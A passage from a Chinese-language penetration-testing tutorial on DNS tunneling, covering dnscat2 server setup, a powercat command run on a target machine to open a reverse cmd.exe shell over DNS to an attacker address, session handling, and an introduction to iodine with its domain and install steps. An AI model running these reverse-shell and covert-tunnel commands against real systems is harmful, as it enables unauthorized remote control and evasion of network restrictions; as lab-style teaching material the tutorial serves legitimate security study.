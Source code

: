 ### 建立 dns 隧道连接

powercat 的 dns 隧道是基于 dnscat 设计的，因此在服务端需要使用 dnscat 连接。

在服务端上安装 dnscat ，以 kali 为例

    
    
    git clone https://github.com/iagox86/dnscat2.git  
    cd dnscat2/server/  
    gem install bundler  
    bundle install

命令运行完之后，执行以下命令开启服务端

    
    
    ruby dnscat2.rb powercat -e open --no-cache

在靶机下，执行以下命令，建立 dns 隧道

    
    
    powercat -c 172.16.214.47 -p 53 -dns powercat -e cmd.exe

此时，在 kali 上就能看到回连的会话了

    
    
    sessions                #    查看所有会话  
    session -i 1         #    选择指定的会话进行交互

不过实测，虽然能返回会话，但不能执行命令，暂不清楚原因是什么。

powercat 暂时就记录这些，其他的比如文件传输什么的就不记了，毕竟使用频率几乎为零，平时使用最多的可能还是拿它来反弹 shell，不过为什么不用 CS
或者 MSF 呢，不更香嘛。

# 0x09 iodine 使用

## 1、介绍

iodine 这个名字起的很有意思，iodine 翻译过来就是碘，碘的原子序数为 53，53 也就是 DNS 服务对应的端口号。

iodine 和 dnscat2 一样，适合于其他请求方式被限制以至于只能发送 DNS 请求的环境中，iodine 同样也是分成了直接转发和中继两种模式。

iodine 与 dnscat2 不同的在于 Iodine 服务端和客户端都是用 C 语言开发，同时 iodine 的原理也有些不同，iodine 通过
TAP 在服务端和客户端分别建立一个局域网和虚拟网卡，再通过 DNS 隧道进行连接，然后使其处在同一个局域网中。

## 2、安装

首先需要有一个域名，并设置 NS 和 A 记录，A 记录指向自己的公网 VPS 地址，NS 记录指向 A 记录的子域名。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20211027204338.png)

Kali 下自带 iodine ，Debian Linux 可以使用 apt 进行安装

    
    
    sudo apt-get install iodine
